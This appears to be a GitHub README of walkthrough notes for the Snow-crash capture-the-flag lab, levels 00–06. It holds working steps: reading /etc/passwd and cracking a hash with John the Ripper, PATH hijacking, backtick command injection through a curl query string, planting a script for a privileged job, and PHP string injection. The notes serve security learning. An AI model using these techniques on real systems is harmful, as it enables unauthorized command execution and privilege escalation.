 # Snow-crash

    Login form :
    ssh -i ~/.ssh/id_rsa.pub level00@165.22.17.96 -p 4242

## level 00

`find / -type f -user flag00 2>/dev/null`

ROT 13 Algorithm

## level 01

`cat /etc/passwd`

hashed Password -> john the Ripper (decode tool)
Copy safely and crack the john the Ripper

brew install john (MacOS version, so it may difffent with different OS )

echo "42hDRfypTqqnw" > text
john text --show

## level 02

pcap file : to store network packet data captured during network traffic monitoring or analysis.
Decode with WireShark (decode pcap file tools)

Open new terminal :
`scp -P 4242 level02@127.0.0.1:/home/user/level02/level02.pcap /tmp`

Analyze HexDump with tcp stream.

## level 03

iVar1 = system("/usr/bin/env echo Exploit me");

`ln -s /bin/getflag /tmp/echo`
`export PATH=/tmp`

## level 04

이 스크립트는 쿼리 문자열에서 "x"라는 매개변수를 가져와 해당 값을 명령으로 사용하여 명령을 실행하고 결과를 출력함.

curl '127.0.0.1:4747/level04.pl?x=`getflag`

## level 05

from /usr/sbin:

`echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag05`

## level 06

PHP syntax : https://www.php.net/manual/en/language.types.string.php

`echo '[x {${`getflag`}}]' > /tmp/getflag`
